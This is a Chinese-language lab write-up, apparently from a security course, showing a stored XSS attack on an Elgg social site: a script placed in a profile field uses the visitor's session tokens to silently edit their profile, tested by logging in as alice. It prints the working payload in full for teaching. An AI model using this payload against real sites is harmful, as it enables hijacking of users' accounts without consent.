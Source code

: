 ## 2.2 使用ajax脚本发起会话劫持

### 2.2.1 插入xss

使用samy登录

修改samy的profile。

在其中的About me字段，**先点击Edit HTML**，添加如下内容

```html
<script>
    window.onload = function () {
        var ts = elgg.security.token.__elgg_ts;
        var token = elgg.security.token.__elgg_token;
        var guid = elgg.session.user.guid;
        fetch('http://www.xsslabelgg.com/action/profile/edit', {
            credentials: 'include',
            method: 'POST',
            headers: {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body: new URLSearchParams({
                __elgg_ts: ts,
                __elgg_token: token,
                guid: guid,
                briefdescription: "Samy is my hero",
            })
        })
    }
</script>
```

### 2.2.1 测试

使用alice登录

访问samy的主页。

发现发出post修改briefdescription

![image-20230530232123508](assets/image-20230530232123508.png)
